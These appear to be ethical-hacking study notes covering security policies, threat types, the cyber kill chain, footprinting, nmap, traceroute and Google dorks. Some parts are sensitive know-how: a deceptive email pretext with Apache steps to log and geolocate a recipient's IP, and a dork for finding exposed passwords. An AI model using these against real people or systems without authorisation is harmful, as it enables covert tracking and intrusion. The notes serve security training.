  2. [Permissive](#permissive-policy): If something is malicious it's blocked.
  3. [Prudent](#prudent-policy): Restrictive
  4. [Paranoid](#paranoid-policy): Highest restrictions

### Promiscuous policy

- No restrictions on system resources.
- Do whatever you want
- 💡 Only good when you have bunch of highly trained & well-informed people with proven track record working in a team because otherwise policies would slow them down

### Permissive policy

- Begins as wide-open, can do anything
- When it knows something is malicious, it'll be blocked

### Prudent policy

- Provides maximum amount of security
- Allows only safe stuff
- Very restrictive
- A lot of things are locked up

### Paranoid policy

- Something of such high importance, not worth to take smallest of risks, e.g. government data regarding to citizens
  - E.g. access only from police station, they need to submit why they access, lethal data
- 🤗 In Linux firewall there's a command called panic that's equivalent to this: Drops all traffic

## Sub-policies

- Policy types are not limited to the listed.

### Password policy

- Guidelines for using strong password protection on available resources.
- E.g.
  - At least 8 characters in length
  - Must include upper/letter/number/symbols

### User account policy

- 📝 Defines the account creation process, authority, rights and responsibility of user accounts.
- E.g.
  - Put users in groups and decides what the groups can do.
  - What needs to be done during account creation

### Information protection policy

- 📝 Guidelines to users on the processing, storage and transmission of sensitive information
- Goal is to ensure information is appropriately protected from modification or disclosure
- E.g.
  - Setting level of sensitivity to information
  - Dictates who has access to information
  - Determines how information is stored and transmitted
  - Describes how information should be deleted from storage media

### Special access policy

- Custom rulings for specific scenarios for specific individuals and services
- The terms and conditions of granting special access to system resources.

### Email security policy

- Governs the proper usage of corporate email.
- E.g.
  - Verify proper signature
  - Never click on links, because they'll never be sent

### Acceptable use policy

- Same as **Terms of Service** or **Terms of Use**
- 📝 Description of what constitutes acceptable and unacceptable use of the Internet
- Code of conduct governing the behavior of a user whilst connected to the network/Internet.
- E.g.
  - ISP providers allows you to use unlimited bandwidth
    - In contract you see it says it's about "fair use"
    - Fair use can be e.g. to not exceed 50% maximum potential bandwidth that could be used with that bandwidth
  - Prohibiting port scanning or security scanning
  - Never revealing a password

### Access control policy

- 📝 Governs resources being protected and the rules that control access to them
- Who can access what (humans <-> services)
  - E.g. limited access to routers and switches on top floor
  - E.g. regulating electric socket placement as someone can connect a Raspberry Pi that can be listening
- What can access what (services <-> services)

### Remote access policy

- 📝 Defines acceptable methods of remotely connecting to the internal network
- Applies to both who and what
- E.g. enforcing VPN, strong passphrases, defining vendor access and requiring monitoring

### Firewall management policy

- Governs access, management and monitoring of firewalls in an organization.
- Who'll monitor? How will it be monitored?
- What kind of firewall that'll be used?

### Network connection policy

- Defines who can install new resources on the network, approve the installation of new devices, document network changes etc.
- Protects both yourself and the company
- E.g. must always use VPN if not working from office

### Network security policy

- 📝 Outlines rules for computer network access, determines how policies are enforced
- Governs e.g. • data access • web-browsing habits • use of passwords and encryption • email attachments.

### Encryption policy

- Dictates which encryption to use
- Goal is to avoid weak and obsolete algorithms
- Easier if everyone uses same algorithm
- Used by e.g. cloud providers, ISP providers

### Authentication policy

- Limits ability to be authenticated under some conditions
- E.g. no coffee shop wireless, only through VPN and using [MFA](identity-access-management-(iam).md#multi-factor-authentication-mfa)

## Implementation

- Steps
  1. Perform a [risk assessment](./risk-management.md#risk-assessment)
  2. Utilize standard guidelines
  3. Include senior management
  4. Define sanctions
  5. Distribute the final version
  6. Ensure that employees have read the policy
  7. Enforce policies
  8. Educate and train employees
  9. Review and update the policy
- Human Resource department has the responsibility to
  - educate and train employees in practices defined by the company's security policies
  - monitor the implementation of the policies
  - enforce penalties

### Top-down vs Bottom-up

- **Top-down**
  - Begins with management establishing a framework for initiating and implementing security practices in the enterprise.¨
  - Most important way to ensure employees across an organization will support and follow the policies
- **Bottom-up**
  - Occurs when the system administrators and security personnel try to establish a security program on their own without senior management support and enforcement.
# Security threats and attacks

- The more valuable information is the higher the threats and chances for an attack are.

## Security threats

- 📝 **Threat** means anything that has potential of causing damage to the system.

### Types of threats

#### Network threats

- **Network** is the set of devices that are connected through communication channels where data exchange happens between devices
- Attacker may break into the channel and steal the information that is being exchanged.
- E.g. • [denial of service attacks (DoS)](./../13-web-applications/denial-of-service.md) • [password-based attacks](./../06-system-hacking/cracking-passwords-overview.md) • compromised-key attacks, firewall and IDS attacks • DNS and ARP poisoning • man in the middle (MITM) attack • spoofing • [session hijacking](./../13-web-applications/session-hijacking.md) • information gathering • sniffing...

#### Host threats

- Attack that tries to gain access to information from a system
- E.g. • [password attacks](./../06-system-hacking/cracking-passwords-overview.md) • unauthorized access • profiling • [malware attacks](./../07-malware/malware-overview.md) • [footprinting](./../02-footprinting/footprinting-overview.md) • [denial of service attacks (DoS)](./../13-web-applications/denial-of-service.md) • arbitrary code execution • privilege escalation • [backdoor attacks](./../07-malware/malware-overview.md#backdoor) • [physical security](./physical-security.md) threats

#### Application threats

- Exploitation of vulnerabilities that exists in the application itself
  - Caused by e.g. bad coding practices
  - Rushed programs has mistakes e.g. lack of validation of input data
- Can be found through reverse engineering, or trial and error
- Large codes that are difficult to maintain has more vulnerabilities.
- Mostly because of improper input validation.
- E.g. • [SQL injection](./../14-sql-injection/sql-injection-overview.md) • cross-site scripting • [session hijacking](./../13-web-applications/session-hijacking.md) • identity spoofing • improper input validation • security misconfiguration • information disclosure • [hidden-field manipulation](./../13-web-applications/hacking-web-applications.md#hidden-field-manipulation) • broken session management • [cryptography attacks](./../15-cryptography/cryptanalysis.md#cryptography-attacks) • [buffer overflow attacks](./../12-web-servers/web-server-threats-and-attacks.md#buffer-overflow-attacks) • [phishing](./../10-social-engineering/social-engineering-types.md#phishing)

## Security attacks

- Or **cyber attack**
- Attempt to gain unauthorized access to a system or network.
- Actualization of a threat

### Motives

- Attack = Motive + Vulnerability + Method (exploit)
- General core of every motives is access to the valuable information
- Common motives:
  - Interrupting the flow of business activities and processes
  - Stealing valuable information
  - Data manipulation
  - Stealing money and important financial information
  - Revenge
  - Ransom

### Types of attacks

- You need to find vulnerability in a system to have an attack
- You can never prove that's its not vulnerable, but can prove it's vulnerable.
  - or You can never prove that a system is secure, but can prove it's insecure.

#### Operating system attacks

- ❗ If OS is taken over protecting applications won't matter.
- Vulnerabilities include
  - Bugs (as it's a big codebase)
  - Buffer overflow
  - Unpatched operating systems
    - Can lead to successful leads using already known vulnerabilities
    - 🤗 E.g. Microsoft had already patched the [EternalBlue vulnerability](https://en.wikipedia.org/wiki/EternalBlue) that NSA developed before it was leaked to public. However, many systems still remained unpatched due to users not updating their systems. So the same vulnerability on unpatched systems were still successfuly exploited by first [WannaCry ransomware](https://en.wikipedia.org/wiki/WannaCry_ransomware) that compromised hundreds of thousands computers, and then by [NotPetya malware](https://en.wikipedia.org/wiki/Petya_(malware)). [1]
- Attacks include
  - Exploiting network protocol implementations
  - [Authentication attacks](./../13-web-applications/hacking-web-applications.md#authentication-attacks)
  - [Cracking passwords](./../06-system-hacking/cracking-passwords-overview.md)
  - Breaking filesystem security
- 💡 Secure OS is an OS that's updated, monitored, regulated as frequently as possible.
- See also [banner grabbing](./../03-scanning-networks/banner-grabbing.md)

[1]: https://en.wikipedia.org/wiki/EternalBlue

#### Misconfiguration attacks

- Hacker gains access to the system that has poorly configured security.
- Can affect works, databases, web servers, etc.
- E.g. • using default accounts (passwords) • forgetting Apache server online to allow proxy requests enabling DDoS attacks
- 💡 Detected mostly by automated scanners

#### Application-level attacks

- Similar to OS attacks but far less damaging as their scope is far narrower.
- Caused by lack of testing as developers rush development of applications and miss something.
- E.g. • sensitive information disclosure • buffer overflow attack • SQL injection v cross-site scripting • session hijacking denial of service • man in the middle • phishing
- 🤗 E.g. Transmission torrent client (macOS)
  - The store where it was downloaded was compromised
  - They substituted torrent download link to their own application
  - See [Transmission is hacked to spread malware](https://blog.malwarebytes.com/threat-analysis/2016/09/transmission-hijacked-again-to-spread-malware/)

#### Shrink-wrap code attacks

- Attacks on libraries and frameworks that the software is depended on.
- Finding vulnerabilities in libraries allows re-using same exploits on more than single application
- 💡 Use libraries: older, more mature, maintained, updated actively with proven track record.
- E.g.
  - A bug is fixed in library but application uses older version.
  - Application uses libraries in debug mode or with default configurations.

### Attack vectors

- Attack vector = Means by which hackers deliver a payload to systems and networks
- [Cloud computing threats](./../16-cloud-computing/cloud-security.md#cloud-computing-risks-and-threats) such as data breach and loss.
- [IoT threats](./../18-iot-and-ot/iot-security.md#iot-threats) usually caused by insecure devices and hardware constraints (battery, memory, CPU etc.)
- [Ransomware](../07-malware/malware-overview.md#ransomware): Restricts access to your files and requires payment to be granted access
- [Mobile threats](./../17-mobile-platforms/mobile-attacks.md#mobile-threats)

#### Advanced Persistent Threats (APT)

- 📝 Stealthy threat actor with continuous attacks targeting a specific entity.
- APT groups include:
  - [APT 10 - Red Apollo @China](https://en.wikipedia.org/wiki/Double_Dragon_(hacking_organization))
  - [Equation Group @USA](https://en.wikipedia.org/wiki/Equation_Group)
  - [APT 29 - Cozy Bear @Russia](https://en.wikipedia.org/wiki/Cozy_Bear)
  - and [many more](https://en.wikipedia.org/wiki/Advanced_persistent_threat#APT_groups)...
- **Advanced**
  - Uses special malware, often crafted for specific organizations
    - Usually a modified version of common malware used in botnets
  - Sophisticated techniques against target not generic
- **Persistent**
  - Long-term presence with external command and control
  - Extracting data
    - Usually ***low-and-slow*** to avoid detection
    - E.g. instead of sending big data, it breaks data to chunks and sends each chunk whenever a user is connected to the internet
- **Threat**
  - Targets high value organizations and information
  - E.g. governments and big companies
- 🤗 E.g.
  - [Sony Pictures hack](https://en.wikipedia.org/wiki/Sony_Pictures_hack) where sensitive data from Sony, e.g. unreleased movies was published as torrents.
  - [2020 United States federal government data breach](https://en.wikipedia.org/wiki/2020_United_States_federal_government_data_breach) where more than 18.000 US companies and government agencies where hacked.
- Common steps
  1. Create a breach e.g. through spear phishing
  2. Exploit inner system vulnerabilities
  3. Control of the system or its segments
  4. Data exfiltration (= unauthorized data transfer)

#### Viruses and worms

- Both can replicates themselves throughout the system in files, documents.
- Have capabilities to infect systems and networks in a quick time.
- [Virus](./../07-malware/viruses.md): Requires user action to be activated e.g. running a file that has a virus embedded.
- [Worm](./../07-malware/malware-overview.md#worm): can spread independently without any user action i.e. self-replicating

#### Botnet

- 📝 Used by hackers to control the infected machines e.g. phones, PC, IoT
- Hackers perform malicious activities from the machines on which bots run eg. DDoS attacks.
- Main problem is lack of security software or proper updates on devices.
- See also [Botnet trojans](./../07-malware/trojans.md#botnet-trojans) and [Botnets | Denial of Service](./../13-web-applications/denial-of-service.md#botnets)

#### Insider attacks

- Performed by a person from within the organization who has authorized access.
  - E.g. disgruntled employee, employee paid by a third-party
- Presents one of the greatest potential of risk and most difficult attacks to defend against.
- See also [Insider attacks | Social engineering types](./../10-social-engineering/social-engineering-types.md#insider-attacks).

##### Insider threat types

- **Pure insider**
  - Inside employee with normal access rights
- **Elevated pure insider**
  - Insider with elevated access
- **Insider associate**
  - Insider with limited authorized access (e.g. guard, cleaning person)
- **Insider affiliate**
  - Spouse, friend, or client of an employee that uses employee's credentials.
- **Outsider affiliate**
  - Unknown and untrusted person from outside the organization.
  - Uses an open access channel or stolen credentials to gain unauthorized access.

##### Insider attack countermeasures

- Restricting access
- Logging to know who access what at what point of time
- Active monitoring of employees with elevated privileges
- Trying to not have disgruntled employees
- Separation of duties
  - Also known as **segregation of duties**
  - Concept of having more than one person required to complete a task.
  - See also [Separation of duties | Cloud computing](./../16-cloud-computing/cloud-computing.md#separation-of-duties)

#### Phishing

- See [Phishing | Social Engineering Types](./../10-social-engineering/social-engineering-types.md#phishing)

#### Web application threats

- Takes advantage of poorly written code and lack of proper validation of input and output data.
- E.g. buffer overflows, SQL injections, cross-site scripting
- 💡 There are many online scanning tools to detect those.

## Modern age information warfare

- Use of information and communication technologies for competitive advantages over an opponent
- Weapons include • viruses • worms • trojan horses • logic bombs • trap doors • nano machines and microbes • electronic jamming • penetration exploits and tools.
- E.g.
  - Corporations spy on each other to use each others technology secrets and patents
    - 🤗 Also known as [Industrial espionage](https://en.wikipedia.org/wiki/Industrial_espionage)
  - Governments spy on other governments by using hackers as proxies to gain information about e.g. defense systems.
  - Intellectual property thefts with reverse engineering to create products without investing in R&D
- Categories include:
  - **Command and control (C2) warfare**
    - Taking down the command center may protect the headquarters but may interfere with their mobility
  - **Intelligence-based warfare**
    - Sensor-based technology to disrupt systems
  - **Electronic warfare**
    - Enhance, degrade, or intercept the flow of information
  - **Psychological warfare**
    - "Capture their minds and their hearts and souls will follow"
    - E.g. propaganda or terror
  - **Hacker warfare**
    - Acquire information about subject A, sell it to subject B.
  - **Economic information warfare**
    - Channeling or blocking information to pursue economic dominance
  - **Cyber warfare**: use of information systems against virtual personas
- Each category can have:
  - **Offensive strategy**
    - Attacks against an opponent
    - E.g. web application attacks, malware attacks, system hacking..
  - **Defensive strategy**
    - Actions taken against attacks.
    - E.g. monitoring, alerts, response, detection, prevention systems
- See also [Information Warfare website](http://www.iwar.org.uk)
# Threat intelligence and forensics

## Cyber kill chain

- Framework for identification and prevention of cyber intrusions activity.
- Developed by [Lockheed Martin](https://www.lockheedmartin.com/)
- Identifies what the adversaries must complete in order to achieve their objective.
- 🤗 Based on military kill chains, a concept consisting of • target identification • force dispatch to target decision • order to attack the target • the destruction of the target
- 🤗 Critiques states it only defends "perimeter" and isn't suitable model to insider threats.
- E.g. [A "Kill Chain" Analysis of the 2013 Target Data Breach](https://www.commerce.senate.gov/services/files/24d3c229-4f2f-405d-b8db-a3a67f183883)

### Cyber kill chain steps

- ❗ Not same in every organization as different organizations have constructed their own kill chains to try to model different threats

1. **Reconnaissance**
   - Collecting as much as information about the target.
   - E.g. harvesting email addresses, conferece information etc.
   - See also [footprinting](./../02-footprinting/footprinting-overview.md)
2. **Weaponization**
   - Analyzing collected data to identify and vulnerabilities to exploit to gain access
   - E.g. creating a [phishing](./../10-social-engineering/social-engineering-types.md#phishing) campaign based on collected data
3. **Delivery**
   - Weaponized bundle to the victim via email, web, USB, etc.
   - Key to measure the effectiveness of the defense strategies implemented by the target.
   - E.g. sending [phishing](./../10-social-engineering/social-engineering-types.md#phishing) emails
4. **Exploitation**
   - Execute code on victim's system.
   - E.g. arbitrary code execution, authentication and authorization attacks
5. **Installation**
   - Installing malware on the asset
   - E.g. [backdoor](./../07-malware/malware-overview.md#backdoor) to gain remote access and maintain access in the network
6. **Command and control**
   - Allows remote manipulation/exploation of victim
   - Done by establishing two-way communication between the victim and the attacker.
   - Evidence is usually hidden using [encryption techniques](./../15-cryptography/encryption-algorithms.md)
7. **Actions on objectives**
   - With hands-on access, intruders accomplish their original goals.
   - E.g. • distrupting network • gaining access to confidential data

### Defensive courses of action

1. **Detect**: determine whether an attacker is poking around
2. **Deny**: prevent information disclosure and unauthorized access
3. **Disrupt**: stop or change outbound traffic (to attacker)
4. **Degrade**: counter-attack command and control
5. **Deceive**: interfere with command and control
6. **Contain**: network segmentation changes

## Threat identification

### Tactics, Techniques, and Procedures (TTPs)

- Concept in terrorism and cyber security studies
- Identifies patterns of behavior of the threat actors (= bad guys)
- Aids in
  - counterintelligence for threat prediction and detection
  - implementing defenses
  - profiling threat actors e.g. [APT groups](security-threats-and-attacks.md#advanced-persistent-threats-apt)
- E.g. In [2020 United States federal government data breach](https://en.wikipedia.org/wiki/2020_United_States_federal_government_data_breach), used TTP were stealing SAML tokens to attack [SSO](identity-access-management-(iam).md#single-sign-on-sso) infrastructure according to [TTP analysis from NSA](https://media.defense.gov/2020/Dec/17/2002554125/-1/-1/0/AUTHENTICATION_MECHANISMS_CSA_U_OO_198854_20.PDF).
- Read more at [NIST Special Publication 800-159](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-150.pdf)

#### Tactics

- Also called **tools** in the acronym
- Highest-level description of the behavior
- Describes ways attacker attacks from start to end
- E.g.
  - Way of gathering information e.g. [open-source intelligence](./../02-footprinting/footprinting-overview.md#open-source-intelligence-osint), [social engineering](./../10-social-engineering/social-engineering-overview.md).
  - Way of initial compromise e.g. tools, zero-day vulnerabilities, obfuscation methods

#### Techniques

- Technical methods used by an attacker
- Gives a more detailed description of behavior in the context of a [tactic](#tactics).
- E.g.
  - [social engineering techniques](./../10-social-engineering/social-engineering-types.md) in early stages
  - exploit tools at middle stages
  - and software tools to clear logs to cover tracks at later stages.

#### Procedures

- Lower-level, highly detailed description in the context of a [technique](#techniques).
- Sequence of actions done by attackers
- E.g. an actor collects business e-mails of target company then launches a [spear phishing](./../10-social-engineering/social-engineering-types.md#spear-phishing) campaign

#### Adversary behaviors

- Method or techniques used by attacker to penetrate victim network.
- E.g. using PowerShell, [DNS Tunneling](../11-firewalls-ids-and-honeypots/evading-firewalls.md#dns-tunneling), [Web Shell](../06-system-hacking/escalating-privileges.md#privilege-escalation-techniques) etc.

#### Indicators of Compromise (IoCs)

- Artifacts observed that indicates computer intrusion with high confidence.
- 4 categories:
  - **Email indicators**
    - E.g. sender's email address, subject, attachment, links.
  - **Network indicators**
    - E.g. URLs, domain names, IP addresses, unusual DNS requests
  - **Host-based indicators**
    - E.g. filenames, file hashes, registry  keys, DDLs, mutex
  - **Behavioral indicators**
    - E.g. memory code injection, remote command execution, document execution PowerShell script.
# Email footprinting

- By monitoring the email delivery and inspecting the e-mail headers
- Information includes
  - IP address of the recipient
  - Geolocation of the recipient
  - Delivery information
  - Visited links
  - Browser and OS information
  - Reading time
- Can track emails using various **email tracking tools**
  - E.g. notifies sender of the email being delivered and opened by the recipient
  - Used by marketers, sellers etc.

## Email header analysis

- Helps to determine an e-mail contains something malicious or not
- Email-headers include
  - Sender's name
  - IP/Email address of the sender
  - Mail server
  - Mail server authentication system
  - Send and delivery stamps
  - Unique number of the message

### Authentication protocol headers

- Allows you to detect forged sender addresses.
- The goal is for sender to identify itself to the receiver.
- E-mail headers include information about their pass status

#### SPF: Sender Policy Framework

- E.g. `'PASS' with IP 209.85.220.69` or `'NEUTRAL' ...`
- Verifies if the domain of the e-mail owned by the sending server.
  - If not passed, many e-mail providers just block it.
- Based on e-mail servers who publish records and says "here's the IP addresses we'll send e-mails"

#### DKIM: DomainKeys Identified Mail

- E.g. `'PASS' with domain accounts.google.com`
- Allows the receiver to verify that an email claimed to have come from a specific domain was authorized by the owner of that domain using a digital signature on the domain.

#### DMARC: Domain-based Message Authentication, Reporting and Conformance

- E.g. `PASS` or `FAIL`
- Combination of two protocols SPF + DKIM
- It builds on them and adds more policy

## Verifying email legitimacy

- Double check `FROM`
- Check the spelling in domain name so it's coming from the domain of the company
  - If it's random e-mail check if it's from one of the biggest domain providers or if something legit.
- Check IP of the domain
  - It can be someones computer (home router IP) or a private server
  - Major mail service providers checks to determine if domain of the e-mail is tied to the source IP of the e-mail (e.g. have a record)
    - 🤗 You can tie a public WiFi (e.g. coffee shop) IP to domain and send the e-mails from there.

## E-mail policies

- Different e-mail service provider have different policies regarding to their SMTP
- 💡 Once hacker recognizes e-mail servers then then he/she can create accounts there, send e-mails back and further to figure out what the rules are.
- E.g. google does not allow you to see the IP address of the sender
  - They proxy it behind one of their servers
  - Workarounds are not so efficient.
- Each have own ruling list
  - Determines e.g. what kind of files that can be send

## Getting an IP address from an e-mail

- You can then get IP and a lot from browser headers including
  - browser information, OS info, device types
  - Revealing your IP is not safe as even home routers have pretty static IP addresses
    - Last usually 30 days up to 3 months
    - 💡 You can still release DHCP lease in your home router settings to get a new IP from the ISP.
- You can send an image from a back-end server that you own
  - Some e-mail providers request it and hide users IP
- You can send a direct link
  - No e-mail provider can protect you from that
  - 🤗 Can be done through social engineering e.g.
    - You know from social media that Bob was celebrating yesterday. You send an e-mail stating "Hi Bob, crew and I had a great time last night, you're never going to guess what Sam did in toilet, threw himself up, check out his pictures"
  - E.g.
    1. Install apache `yum install httpd`
    2. Start apache `systemctl start httpd`
    3. Create a file: `cd /var/www/html/` then `touch <RESOURCE_NAME>;`
    4. Check logs live: `tail -f /var/log/httpd/access_log`
    5. You'll get the IP address when the link (`<IP_ADDRESS>/<RESOURCE_NAME>`) is opened
       - You can find out self IP address using `curl ifconfig.me`
    6. And you can look at the location of IP using `geoiplookup <IP_ADDRESS>;`
# Footprinting overview

- Also known as **fingerprinting** or **reconnaissance**
- 📝 Gathering information about a target system
- E.g. software, network protocols, operating systems or hardware devices.
- End goal is to find a way to break into the system.
- 🤗 Often offered as separate service bought by companies to check against leaks and to see what data is there.
- See also • [Reconnaissance | Hacking stages](./../01-introduction/hacking-stages.md#1-reconnaissance) and • [Information Gathering | Penetration testing phases](./../01-introduction/penetration-testing-phases.md#information-gathering)

## Footprinting types

### Passive footprinting

- Also known as **passive reconnaissance**, **passive fingerprinting** or **passive information gathering**
- 📝 No direct contact with target
- Rely on information that is publicly available.
- Most difficult to detect
- E.g. • News • job postings • [WHOIS](./whois-geoiplocation-and-dns-interrogation.md#whois) databases • government records • document sifting • [dumpster diving | Social engineering](./../10-social-engineering/social-engineering-types.md#dumpster-diving) • [competitive analysis](#competitive-intelligence) • browser search • map lookup • DNS lookup • Facebook/Twitter search

#### Open-source intelligence (OSINT)

- 📝 Collection and analysis of information that is gathered from public, or open, sources
- ❗ "Open-source" is unrelated to open-source software or collective intelligence
- Categories: • media • internet • public government data • professional and academic publications • commercial data • grey literature
- [awesome-osint | list of tools](https://github.com/jivoi/awesome-osint), [OsintFramework | graph of tools](https://osintframework.com/)

#### Competitive intelligence

- Also known as **competitive analysis**
- Assessment of the strengths and weaknesses of current and potential competitors
- Tools include
  - Traffic statistics: [Alexa](https://alexa.com)
  - News: [Google finance](https://finance.google.com)
  - Company plans/finances: • [SEC Info](https://www.secinfo.com) • [experian](https://experian.com) • [Market Watch](https://marketwatch.com) • [Wall Street Monitor](https://twst.com) • [EuroMonitor](https://euromonitor.com)
  - Company origins and development: • [EDGAR Database](https://sec.gov/edgar.shtml) • [Hoovers](https://hoovers.com) • [LexisNexis](https://lexisnexis.com) • [Business Wire](https://businesswire.com)

### Active footprinting

- Also known as **active reconnaissance**, **active fingerprinting** or **active information gathering**
- 📝 Direct contact with target including
- Possible for target to be aware e.g. through tasks that may be logged or recorded
- Examples
  - Buying beers for company employees to see what you can extract.
  - Network mapping with `nmap`, perimeter mapping, port scanning, web profiling...
  - • E-mail tracking • Phishing scheme with an email • Querying name servers • File metadata • Social engineering • Extracting DNS information • [Traceroute](./network-footprinting.md#traceroute) analysis
- 💡 Easier idea to start with passive footprinting by gathering all publicly available data
  - Then organizing it, and putting in one place.
  - Then use active footprinting with starting probing for ports, networks, possible vulnerabilities etc.
- 💡Good to learn more about stuff (employees) of a company
  - through them you can learn a lot more and gain a lot more access
  - e.g. contact them through social media and start a conversation
    - e.g. join a conference that you see the person is attending on LinkedIn and meet him.

## Footprinting information

- **Network information**
  - Domains, subdomains
  - IP addresses
  - [Whois](./whois-geoiplocation-and-dns-interrogation.md#whois) and DNS records
  - VPN firewalls using e.g. [ike-scan](https://github.com/royhills/ike-scan)
- **System information**
  - Web server operating systems
  - Server locations
  - Users
  - Passwords
- **Organization information**
  - Employee information
  - Organization's background
  - Phone numbers
  - Locations

## Footprinting objectives

- **Learn security posture**
  - Analyze security
  - Find loopholes
  - Create an attack plan
- **Identify focus area**
  - Narrow down the range of IP addresses.
- **Find vulnerabilities**
  - Identify weaknesses in the target's security.
- **Map the network**
  - Graphical representation of target's network a guide during the attack.

## Footprinting tools

- Collects and visualizes information e.g. • IP location • routing • business • address • phone number • social security number • source of an email and a file • DNS • domain
- 📝 **[Maltego](https://www.maltego.com/)**
  - Proprietary software for open-source intelligence (OSINT)
  - Provides graphical link for investigative tasks.
- **[Recon-ng (The Recon-ng Framework)](https://github.com/lanmaster53/recon-ng)**
  - Open source CLI tools for open source web-based reconnaissance
- **[FOCA](https://github.com/ElevenPaths/FOCA)**
  - Fingerprinting Organizations with Collected Archives
  - Open-source tool to find metadata and hidden information in the documents:
    1. Finds documents (e.g. PDF, SVG) through search engines or manual upload
    2. Analyze them and identify which documents are created by same team, using which servers/clients.
- **[Recon-dog](https://github.com/s0md3v/ReconDog)**
  - Open-source CLI tool self-claimed as Reconnaissance Swiss Army Knife
  - Can extracts targets from STDIN (piped input) and act upon them
  - Passive reconnaissance tool extracting all information with APIs without any contact with target
- **[Dmitry](https://github.com/jaygreig86/dmitry)** (DeepMagic Information Gathering Tool)
  - CLI tool to analyze a website e.g. `dmitry https://cloudarchitecture.io`
  - • Performs [WHOIS](./whois-geoiplocation-and-dns-interrogation.md#whois) lookup on IP and domain • Retrieves [Netcraft](./search-engines-and-online-resources.md#netcraft) information • Search for subdomains/email addresses • Performs TCP scanning • Grabs banner for each port

## Footprinting reports

- Includes
  - Details about the performed tests
  - Used techniques
  - Test results
- It should also include
  - List of vulnerabilities and how they can be fixed
    - E.g. wrong configuration in webserver because you're allowing a forward and somebody is using your proxy for reflection attacks.
      - Reflection attack = Send a packet from A to B, A gives wrong source IP for DDoS attacks.
  - List sources of information e.g. DNS, social medial, social engineering.
  - List what information you gathered from each source
    - E.g. login pages, technologies, files, contact details, GPS location, IP address, email servers.
- Should be kept highly confidential

## Countermeasures

- Enforcing security policies
- Educating employees about security threats
  - Raises awareness, reduces risks dramatically
- Encrypting sensitive information
  - 💡 Use proper encryption everywhere
    - 🤗 Many companies uses VPN/proxy with encryption for outside communication, but service communicate with each other without any encryption.
- Disabling protocols that are not required
- Proper service configuration
  - Double check all services that application depends.
  - Do not disable/enable configuration without knowing consequences.
- Scrutinize information released to the public domain
  - E.g. you post on social media which routers the company has just bought
    - Allows hacker to
      - know default router configurations
      - get image of OS in the router and conduct tests in a VM
- Limit site caching
  - Inform search engines what they're supposed to index through e.g. `robots.txt`
    - E.g `User-agent: * Disallow: /` prevents indexing any page (`Disallow: /`) for any crawler (`User-agent: *`)
- Use Whois Guard
- Restricting access to social media
  - Extra risk as you click on many links and giving away companies IP address
# Network footprinting

- Collecting network range information to use the information to map the target's network
- Gives insights into how the network is structured and which machines belong to the network.

## Nmap

- Used for network discovery
- Uses raw IP packets to determine e.g.
  - the available hosts on the network
  - the services offered by those hosts
  - operating systems they are
  - firewall types that are being used
  - and more...
- Not only used for malicious purposes but also for checking something is working as intended
  - e.g. check why a port is open and confirm it's closed
- E.g. `nmap -v -p 0-2000 -O -sV 178.128.203.1`
  - `-v`: verbose, more output than usual
    - `-d` prints even more.
  - `-p`: for port
    - default: 0-1024
    - the higher the ranges is the longer it takes.
  - `-O`: os detection (best guess)
  - `-sV`: versions of all detected services (best guess)
    - 💡 Allows you to check for vulnerabilities of a specific version of that services e.g. through [exploit database](https://www.exploit-db.com/)
  - `178.128.203.1`: can also specify subnet also e.g. `/24`
- 🤗 In UK and Germany it's illegal to conduct a scan on a network, more [Nmap | legal issues](https://Nmap.org/book/legal-issues.html)
- Read more about Nmap in [Nmap | Scanning Tools](./../03-scanning-networks/scanning-tools.md#nmap)

## Traceroute

- 📝 Programs used for discovering routers that are on the path to the target host.
- You always go through multiple hops before you reach target
  - E.g. first hop being your router, then routers & switches ISP provider and the router that sends traffic out of the country...
- Helps hacker to collect information about
  - network topology
  - trusted routers
  - firewall locations
- Can use protocols such as `ICMP` (often), `TCP`, `UDP`, `DCPP`..
- ❗ There can be hops that are invisible/undetectable
  - 💡 You can craft special packets to detect them with custom time to lives, their failure
- Uses TTL field in the IP header to discover the route.
  - Starts by setting TTL to 1
  - Stops at each hop on the way to the destination and providing information to the sender about that hop
  - The TTL is incremented by 1 for each hop discovered
- Used to create network diagrams and plan attacks.
- Helps with e.g. man-in-the-middle attacks.
- It records IP addresses and DNS names of discovered routers.
- Commands
  - Unix tool: `traceroute 178.128.203.1` (uses UDP)
  - Using Nmap: `nmap traceroute --script traceroute-geolocation 178.128.203.1 -d`
  - Using hping: `hping3 –traceroute -S {target ip}`
  - Windows tool: `tracert 178.128.203.1` (uses ICMP)
# Search engines and online resources

- For e.g. information about the target organization's employees, intranet, login pages...
- Sources include • social networking sites • people search services • alerting services • financial services • job sites showing target infrastructure details, physical location, and employee details • deep and dark web

## Google hacking

- Involves using a set of search operators (**dorks**) and building complex queries.
- 📝 Form of [passive reconnaissance](./footprinting-overview.md#passive-footprinting)
- Common dorks:

  | Dork | Definition | Example |
  | ---- | ---------- | ------- |
  | **`site`** | Only from the specified domain | `azure site:cloudarchitecture.io` |
  | **`inurl`** | Only pages that has the query in its URL. | `inurl: cloudarchitecture` |
  | **`intitle`** | Only pages that has the query in its title. | `intitle: cloud architecture` |
  | **`cache`** | Cached versions of the queried page | `cache:cloudarchitecture.io` |
  | **`link`** | Only pages that contain the queried URL. Discontinued. | `link:cloudarchitecture.io` |
  | **`filetype`** | Only results for the given filetype | `filetype:sql` |

- 📝 Usual to combine `filetype` and `site` dorks as see in [metagoofil](#metagoofil)
- Google logical query operators

  | Operator | Definition | Example |
  | ---- | ---------- | ------- |
  | **`OR`**, **`|`** | X or Y but not both | `jobs OR gates`, `jobs | gates` |
  | **`AND`** | Results related to both X and Y, google default. | `jobs AND gates` |
  | **`-`** | Exclude a term or phrase | `jobs ‑apple` |
  | **`*`** | Wildcard that will match any word or phrase. | `"Google * my life"` > google changed my life, google runs my life... |
  | **`(`**, **`)`** | Group multiple terms | `(iPad OR iPhone) apple` |

- E.g. finding passwords: `intext:"please change your" password | code | login file:pdf | doc | txt | docx -github`
  - **`intext`**: in the text of the website
  - **`"please change your" password"`**: Placing something in quote marks  means it must contain the text as whole, not parts of it.
  - **`file:pdf`**: specify what kind of file you want.
  - **`-github`**: minus + word tells to exclude results containing that word(s).
- For complex searches use:
  - [Google Advanced Search](https://www.google.com/advanced_search) (no need for dorks)
  - [Google Advanced Image Search](https://www.google.com/advanced_image_search)
- 💡 Easier way may be using [Google Advanced Search](https://www.google.com/advanced_search) or [Advanced Image Search](https://www.google.com/advanced_image_search)

### Google hacking tools

- [**Google hack honeypot**](http://ghh.sourceforge.net)
  - Logs google hacking queries against your resources
- [**Google hacking database**](https://www.exploit-db.com/google-hacking-database)
